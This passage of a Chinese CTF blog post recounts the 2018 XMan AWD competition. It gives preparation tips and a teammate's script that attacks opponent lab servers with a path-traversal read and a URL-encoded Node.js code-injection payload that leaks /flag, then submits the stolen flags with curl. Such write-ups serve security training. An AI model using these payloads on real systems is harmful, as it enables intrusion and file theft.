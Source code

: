 ```yaml
---
title: 2018-XMan结营赛
date: 2018-08-22 17:39:54
tags: [ctf, wp]
---
```


记录一下被虐的经历。



全队就我一个菜鸡维护二进制，全场被痛打，很难受。记录一下线下 AWD 所需要做的准备，以及两道 pwn 的复现。

# 准备

第一次打 AWD，什么也不懂。

1. 比赛前了解比赛赛制、环境。
2. 服务器上线之后，第一时间改密码。
3. 下载好 `FileZilla`、`Xshell` 等连接服务器的工具，把服务器上给的文件备份。
4. 提前准备好自动化的脚本。

这里放一下队友 web 大佬的打全场脚本：

```python
from requests import get
from os import system

for i in range(24):
    if i == 12:
        continue
    print(f"======{i+1} starts=======")
    url = f"http://172.16.{i+1}.101:20001/uploads/images/../../../../../../../flag"
    try:
        flag = get(url).text[:-1]
        system(f'curl http://172.16.200.20:9000/submit_flag/ -d "flag={flag}&token=Hn4JuwQQ7Mfaek2HAuTkB3S6k4e38EKXQJEdtDDWDfsda2tqQUgUHRCtrtxbS9hMkQndVbVfHsD"')
        print(f"\n{flag}")
    except:
        print(f"{i+1} : no")
        pass
    url = f"http://172.16.{i+1}.101:20001/category/test?0=%28function%28%29%7b%0a%20%20%20%20var%20fs%20%3d%20require%28%27fs%27%29%3b%0a%09var%20flag%20%3d%20fs.readFileSync%28%27%2fflag%27%2c%20%27utf-8%27%29%3b%0a%09fs.writeFileSync%28%27%2fhome%2fxctf%2fweb%2fstatic%2fjs%2ftest.js%27%2c%20flag%29%3b%0a%09return%201%3b%0a%7d%29%28%29%3b"
    try:
        get(url)
        url = f"http://172.16.{i+1}.101:20001/static/js/test.js"
        flag = get(url).text
        flag = get(url).text[:-1]
        system(f'curl http://172.16.200.20:9000/submit_flag/ -d "flag={flag}&token=Hn4JuwQQ7Mfaek2HAuTkB3S6k4e38EKXQJEdtDDWDfsda2tqQUgUHRCtrtxbS9hMkQndVbVfHsD"')
        print(f"\n{flag}")
    except:
        pass
```
